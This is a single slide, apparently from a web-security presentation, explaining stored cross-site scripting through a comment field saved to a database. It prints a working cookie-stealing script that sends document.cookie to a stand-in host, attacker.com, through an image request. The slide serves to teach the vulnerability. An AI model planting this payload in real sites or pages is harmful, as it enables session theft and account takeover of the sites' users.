

# XSS  [2/4] : Attack Payload
<script>
    var cookie = document.cookie;
    var img = new Image();
    img.src = "http://attacker.com/dummy.png?cookie=" + encodeURIComponent(cookie);
</script>
example submitted form
"comment"

(saved in DB)

...re-opened on someone else page later
Impact  :   any Javascript  can be executed inside the victim browser, for the web-site